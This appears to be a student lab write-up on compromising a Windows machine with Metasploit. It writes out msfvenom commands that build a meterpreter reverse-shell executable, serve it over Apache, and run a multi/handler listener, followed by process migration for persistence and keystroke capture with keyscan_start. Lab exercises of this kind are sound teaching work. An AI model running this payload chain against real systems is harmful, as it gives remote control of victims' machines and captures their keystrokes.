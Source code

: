# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### Find the attackers ip address using ifconfig

### OUTPUT: 

![01](https://github.com/user-attachments/assets/c57af2ff-2164-4589-bd54-40398a9fbe74)

### Create a malicious executable file fun.exe using msfvenom command:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

### OUTPUT:
![02](https://github.com/user-attachments/assets/e4920d8c-90b0-44a2-91f8-c46521535fb7)

copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start

### Check the status of apache2:

### OUTPUT:
![04](https://github.com/user-attachments/assets/f4f695a4-1ac6-449a-895a-2712e0e72d62)


### Invoke msfconsole:

### OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

### OUTPUT :
![05](https://github.com/user-attachments/assets/882dc545-951d-4061-9bc3-e14e9d0df166)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

### OUTPUT :
![RECENT](https://github.com/user-attachments/assets/b21d0963-6f17-41ab-b587-b0cfca01a503)

### WINDOWS :

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads

### BROWSE OUTPUT :
![G1](https://github.com/user-attachments/assets/2e7aa376-1eaf-42e1-9153-996d56a3029f)

### DOWNLOAD OUTPUT :
![G2](https://github.com/user-attachments/assets/99109ec1-d994-498a-8216-dcfdbdb216ff)

### COME BACK TO PARROT :
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

### OUTPUT:
![og 06](https://github.com/user-attachments/assets/9746d958-5ed4-4572-8817-a109aa8cb561)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

### OUTPUT :
![07](https://github.com/user-attachments/assets/9d05082a-8b7c-4adf-947e-a4a81d96a2c6)

### WINDOWS OUTPUT :
![G3](https://github.com/user-attachments/assets/a001c377-dbc6-4217-bfae-6c836b41787e)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

### OUTPUT : 
![09](https://github.com/user-attachments/assets/307d0a7e-5e57-435d-a9bf-e262fe4a3d91)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
